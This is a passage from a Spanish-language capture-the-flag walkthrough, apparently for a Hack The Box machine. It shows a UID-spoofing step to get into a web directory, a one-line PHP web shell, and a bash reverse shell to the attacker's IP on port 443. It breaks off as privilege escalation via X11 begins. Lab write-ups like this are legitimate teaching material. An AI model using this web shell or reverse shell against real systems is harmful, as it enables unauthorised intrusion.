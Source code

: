 - Ahora si intentamos examinar lo que hay en el directorio web, no podremos porque nos dice "permiso denegado", si vemos los permisos que tiene el directorio podemos ver que el propietario tiene la UID `"2017"` y pertenece al grupo "www-data", entonces para `bypassear` esto y poder tener acceso, simplemente nos creamos un usuario y le asignamos dicha UID:

```bash
$sudo adduser prueba
$usermod -u 2017 prueba
```

- Ahora accedemos como dicho usuario `"prueba"` y deberíamos poder ver los recursos del directorio web.

```
$ su prueba
```

- Al examinar index.html, podemos darnos cuenta que los recursos web que hay se tratan de los mismos que se nos muestra al acceder a la página web principal (La página que nos muestra servicios de decoración de hogar).

- Ahora, como tenemos permisos de escritorio en este directorio, podríamos simplemente subir un archivo malicioso, en este caso `PHP`, el cual nos permita ganar acceso al sistema de la máquina víctima.

```bash
$nano cmd.php
```

```
<?php echo passthru($_GET['cmd']); ?>
```


- Ya creado el archivo, accedemos mediante el navegador y confirmamos que podemos ejecutar comandos usando el parámetro "cmd":

```
http://10.10.11.191/cmd.php?cmd=whoami
```

- Nos entablamos una reverse shell y accedemos al sistema como el usuario "alex":

```
http://10.10.11.191/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.144/443 0>%261"
```

- Dentro del directorio "/home/alex" encontraremos la primera flag.


# ESCALANDO PRIVILEGIOS:


# X11 exploit:

- Si entramos al directorio "/tmp" podemos ver un archivo `"screen.xwd"`, si buscamos en Hacktricks esta extensión de archivo encontramos lo siguiente [6000 - Pentesting X11 - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11)
